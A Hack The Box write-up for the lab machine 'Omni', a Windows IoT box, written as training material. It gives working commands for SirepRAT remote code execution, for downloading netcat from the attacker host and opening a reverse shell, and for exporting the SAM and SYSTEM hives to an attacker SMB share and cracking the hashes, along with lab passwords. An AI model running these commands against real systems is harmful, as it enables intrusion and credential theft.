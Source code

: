 ```yaml
---
layout: post
title:  "Hack The Box - Omni Writeup"
date:   2021-01-09 06:00:00
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](/assets/img/htb/HTB-Omni/Header.png)

Omni is an Easy level "Other" machine. Boxes typically fall under the "Linux" or "Windows" category, so this deviation from the norm should lead to a fun and interesting challenge. Based on the creator and community statistics, this box has a decent balance across all areas, but leaning slightly more towards realistic configurations exploited with existing CVEs.  
![Statistics](/assets/img/htb/HTB-Omni/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p135,5985,8080,29817,29819,29820 -sV -sC -Pn -oA Extracts/Omni 10.10.10.204`  
![Nmap](/assets/img/htb/HTB-Omni/nmap.png)

* **Port 135 - msrpc**: Microsoft Remote Procedure Call, is used to negotiate communication over ports 1025 - 65535. 
* **Port 5985 - upnp**: Although nmap shows this port is hosting some type of IIS server, port 5985 is also used for [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal). If we're able to find credentials, it's posible this will be our way into the machine.
* **Port 8080 - upnp**: Another reference to IIS here, it looks like one of our nmap scripts discovered a "Windows Device Portal" application requiring basic authentication. 
* **Ports 29817, 29819, 29820**: After a bit of research, it appears that these ports are related to WPCon, WPConTCPPing, WPPingSirep, and WPConProtocol2. The Arcserve reference could also be useful later on.

### Windows IoT
Looking into the "Windows Device Portal" finding, we're led to documentation around the Windows IoT platform. We're likely targetting an IoT device, which should narrow down our focus with CVEs and exploits.

## Foothold
Combining the discovery of a Windows IoT device with the higher ports, we find an exploit against the Sirep Test Service that allows for Remote Code Execution. We can leverage this using a simple python tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), along with a list of writeble directories to work with.  
![Writeable](/assets/img/htb/HTB-Omni/Foothold_Writeable.png)

### Upload Netcat
Our first step to gaining access on the machine is to upload a netcat executable. This will allow us to create a connection back to our machine and execute additional commands. Start up a simple python server to host our nc46.exe.  
`>> python -m SimpleHTTPServer`

Next, we'll execute a command on the target server to request our file and download it to the Windows Temp directory.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell -c Invoke-WebRequest -OutFile C:\\Windows\\Temp\\nc64.exe -URI 10.10.14.28:8000/nc64.exe" --v`

### Reverse Shell
With the netcat executable in place, our next step is to create a listener on our local machine.  
`>> nc -lvnp 4444`  

We'll send a second command to the target server, this time connecting back to our listener and gaining shell as the Omni user.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\Temp\\nc64.exe 10.10.14.28 4444 -e cmd.exe"`  
![Reverse Shell](/assets/img/htb/HTB-Omni/Foothold_Shell.png)  

### Locating Credentials
Typically, the user flag can be found easily in the Desktop of the user you gained access with. However, this box seems to have a different setup than most and will require us to do a little extra digging. We can search for the `user.txt` file with Powershell.  
`>> powershell -c get-childitem -path c:\ -filter user.txt -recurse -erroraction silentlycontinue -force`  
![Flag Search](/assets/img/htb/HTB-Omni/Foothold_Search.png)  

Reading the contents of `C:\Data\Users\app\user.txt` leads to some Powershell credential information. Unfortunately, we can't decrypt the flag inside yet because it belongs to the app user.  
![User File](/assets/img/htb/HTB-Omni/Foothold_User.png)  

### Extracting SAM, SYSTEM, SECURITY files
Although there is an alternative path on this box involving a batch file left behind during creation, we'll be looking at the intended solution dumping user hashes from the registry. The Security Account Manager (or SAM file) is a database containing all the password hashes for user accounts. The SYSTEM and SECURITY files will allow us to extract the hashes for cracking.

We'll start off by configuring an SMB Share on our local machine to tansfer the files to.  
`>> sudo smbserver.py share . -smb2support -username omni -password omni`

With the share running, we can connect to it from the Omni shell using the credentials we set up.  
`>> net use \\10.10.14.15\share /u:omni omni`

And now, we're able to extract the files while sending them to our machine:  
`>> reg save HKLM\sam \\10.10.14.15\share\SAM`  
`>> reg save HKLM\system \\10.10.14.15\share\SYSTEM`  
`>> reg save HKLM\security \\10.10.14.15\share\SECURITY`  
![SMB Share](/assets/img/htb/HTB-Omni/SMB_Share.png)

### Extracting Hashes
With the files we need successfully sent to our local machine, we're able to extract the hashes inside using `secretsdump.py`.  
`>> secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL`  
![Hashes](/assets/img/htb/HTB-Omni/Hashes.png)

### Cracking Hashes
Our last step to getting user credentials is to run the hashes through `hashcat` and see what we can find.  
`>> .\hashcat.exe -a0 -m1000 .\hash.txt .\rockyou.txt --username`  
![Hashes Cracked](/assets/img/htb/HTB-Omni/Hashes_Cracked.png)

Looks like we've got credentials for the app user!
`app:mesh5143`

### User Flag
Authenticating with the app user credentials against port 8080 results in access to the Windows Device Portal we previously discovered. Under `Processes > Run Command`, we're able to execute arbitrary commands on the system. Let's get the User flag  
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().Password`
![User Flag](/assets/img/htb/HTB-Omni/User_Flag.png)  

## Privilege Escalation
In addition to the user flag file, the app user's directory contains an `iot_admin.xml` file. Executing the previous command against the new file results in gaining the admin password `_1nt3rn37ofTh1nGz`.

Reauthenticating to the dashboard using the administrative credentials, we're shown an identical screen as the app user. Again, navigating to `Processes > Run Command` will allow us to execute system commands, this time as the admin. 

### Root Flag
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().Password`  
![Root Flag](/assets/img/htb/HTB-Omni/Root_Flag.png)  